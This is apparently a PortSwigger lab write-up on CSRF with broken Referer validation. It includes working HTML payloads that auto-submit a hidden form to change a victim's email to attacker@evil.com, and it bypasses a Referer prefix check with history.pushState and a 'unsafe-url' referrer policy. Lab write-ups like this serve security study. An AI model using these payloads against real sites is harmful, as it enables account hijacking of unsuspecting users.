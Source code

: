 # CSRF with broken Referer validation

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-referer-validation-broken), you'll learn: CSRF with broken Referer validation! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052029.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052052.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052057.png)

In the previous labs, we found that the email change functionality is vulnerable to CSRF.

**Let's inspect that HTML form:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```

In here, we can see that there is **no CSRF token**.

**Now, we can use the `exploit serevr` to test CSRF attack:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052342.png)

**Then, we can craft a HTML form that performs CSRF attack on the victim:**
```html
<html>
    <head>
        <title>CSRF-12</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**To test is will work or not, I'll use the `View exploit` button:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052529.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052546.png)

However, it outputs an error: `Invalid referer header`.

**In the previous lab, we bypass that check with a `<meta>` tag:**
```html
<html>
    <head>
        <meta name="referrer" content="no-referrer">
        <title>CSRF-12</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Let's try that again:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052723.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052738.png)

Hmm... We still get an `Invalid referer header` error.

**This got me thinking: Is the application validates that the domain in the `Referer` starts with the expected value??**

**Let's check that in Burp Suite's Repeater:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215053511.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215053540.png)

**In here, we can try to send a different URL in the `Referer` header:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215053634.png)

**Then, what if I try to append a GET parameter after the expected value?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215054242.png)

It still works!

**That being said, the application is checking the domain in the `Referer` starts with the expected value!**

**According the [Mozilla web docs](https://developer.mozilla.org/en-US/docs/Web/API/History/pushState), we can use a JavaScript function called `history.pushState()`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215054430.png)

**To bypass that check, we can add the `history.pushState()` function in our exploit:**
```html
<html>
    <head>
        <title>CSRF-12</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            history.pushState('', '', '/?0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net')
            document.forms[0].submit();
        </script>
    </body>
</html>
```

This will cause the `Referer` header in the generated request to contain the URL of the target site in the query string.

However, this still couldn't work, as many browsers now strip the query string from the Referer header by default as a security measure.

**To bypass that, we can just add a new `<meta>` tag to override that behavior and ensure that the full URL is included in the request:**
```html
<html>
    <head>
        <meta name="referrer" content="unsafe-url">
        <title>CSRF-12</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            history.pushState('', '', '/?0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net')
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Finally, we can send this exploit to a victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215054941.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215054955.png)

We successfully changed a victim email address!

# What we've learned:

1. CSRF with broken Referer validation